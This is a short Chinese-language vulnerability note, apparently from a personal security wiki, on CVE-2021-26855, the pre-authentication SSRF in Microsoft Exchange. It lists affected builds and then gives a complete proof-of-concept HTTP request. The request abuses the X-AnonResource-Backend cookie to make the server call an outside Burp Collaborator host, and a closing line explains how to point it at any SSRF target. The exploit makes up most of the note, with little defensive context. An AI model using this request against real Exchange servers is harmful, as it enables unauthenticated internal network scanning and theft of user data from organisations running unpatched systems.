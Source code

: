 ```yaml
---
title: "CVE-2021-26855"
author: ["4shen0ne"]
tags: ["vuln"]
draft: false
---
```


Exchange SSRF 漏洞，攻击者可直接构造恶意请求，以 Exchange server 的身份发起任意
HTTP 请求，扫描内网，并且可获取 Exchange 用户信息。该漏洞利用无需身份认证。


## 影响版本 {#影响版本}

Exchange 2013 Versions &lt; 15.00.1497.012,

Exchange 2016 CU18 &lt; 15.01.2106.013,

Exchange 2016 CU19 &lt; 15.01.2176.009,

Exchange 2019 CU7 &lt; 15.02.0721.013,

Exchange 2019 CU8 &lt; 15.02.0792.010。


## poc {#poc}

```nil
GET /owa/auth/x.js HTTP/1.1
Host: IP
Connection: close
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://IP/owa/auth/logon.aspx?url=https%3a%2f%2PIp%2fowa%2f&reason=0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: X-AnonResource=true; X-AnonResource-Backend=oyq5v1vyqo5komisdc1jfltvzm5dt2.burpcollaborator.net/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3;
```

x.js 可以随意构造，在 cookie 的 X-AnonResource-Backend 参数中设置 ssrf 目标，比
如上面的 oyq5v1vyqo5komisdc1jfltvzm5dt2.burpcollaborator.net
